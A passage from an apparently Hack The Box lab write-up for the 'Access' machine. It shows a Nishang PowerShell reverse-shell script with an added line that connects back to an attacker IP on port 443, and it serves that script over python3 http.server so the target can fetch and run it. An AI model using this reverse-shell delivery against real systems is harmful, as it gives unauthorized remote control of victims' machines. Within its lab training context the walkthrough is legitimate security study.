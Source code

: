 I’m going to have the Access box `iex` this script. As it is by default, that will just load all the functions in this script into the current PowerShell session. But I want to actually run one of those function. So I’ll add that line to the bottom of the script:

```

root@kali# tail Invoke-PowerShellTcp.ps1 
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.11 -Port 443

```

#### Serve Shell

Now I need to serve the shell so that I can get it from Access. I’ll use the `http.server` module in `python3` (that’s the same as the `SimpleHTTPServer` module in `python2`, but I don’t like having to hit shift and it’s fewer characters).

I’ll simply start the module, and now I’m serving the current directory over http on the given port:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

This is why I created a new directory to serve out of. Anyone on the HTB network can access this page now and the files it’s serving. I don’t want my notes or other files available.

I can check that the server is working with my browser:

![1550156000195](https://0xdfimages.gitlab.io/img/1550156000195.png)

I can see those requests in the terminal as well:

```

root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.11 - - [14/Feb/2019 09:53:11] "GET / HTTP/1.1" 200 -
10.10.14.11 - - [14/Feb/2019 09:53:11] code 404, message File not found
10.10.14.11 - - [14/Feb/2019 09:53:11] "GET /favicon.ico HTTP/1.1" 404 -

```
